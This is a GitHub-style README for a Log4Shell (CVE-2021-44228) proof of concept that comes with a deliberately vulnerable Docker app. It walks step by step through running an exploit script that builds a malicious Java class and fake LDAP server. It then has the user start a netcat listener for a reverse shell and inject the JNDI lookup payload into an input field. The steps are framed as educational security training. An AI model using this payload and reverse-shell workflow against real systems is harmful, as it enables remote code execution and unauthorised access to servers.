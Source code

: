 A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability. <br><br>

Recently there was a new vulnerability in log4j, a java logging library that is very widely used in the likes of elasticsearch, minecraft and numerous others.

In this repository we have seen how to exploit log4j vulnerability with a simple vulnerable application

You can download the POC and its dependency files from [here](https://drive.google.com/drive/folders/1gpNdCJnvYI0qjVJMeOFkfd_i3NCujTPT).

#### Usage:

* Step #1 : Clone & Download the Vulnerable application from above.<br>
* Step #2 : Install Docker and run the following commands to host a vulnerable application. <br>

    ```c
    1: # docker build -t log4j-shell-poc .
    2: # docker run --network host log4j-shell-poc
    ```
    Once it is running, you can access it on localhost:8080

    <br>

* Step #3 : Download and extract the POC folder from above link and install it dependencies.<br>

    ```py
    $ pip3 install -r requirements.txt
    $ python3 poc.py --userip localhost --webport 8000 --lport 4545

    [!] CVE: CVE-2021-44228

    [!] Github repo: https://github.com/Hack-with-8k0b/log4j-App-and-Poc

    [+] Exploit java class created success
    [+] Setting up fake LDAP server

    [+] Send me: ${jndi:ldap://localhost:1389/a}

    Listening on 0.0.0.0:1389
    ```
    
* Step #4 : Start a netcat listener in different terminal to accept reverse shell connection.<br>
```py
nc -lvnp 4545
```
* Step #5 : Copy & paste the link created by the poc into the vulnerable input field .<br>

    This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

<br>


Disclaimer
----------
The above POC and Vulnerable App is simplified version of kozmer's Github log4jshell-poc, This POC is for educational purposes only, so use it on your own risks.

This is to help security researchers and newbies to learn about log4jshell vulnerablity and attack, for any concerns and queries feel free to reach me out @ nbharathkumara@gmail.com
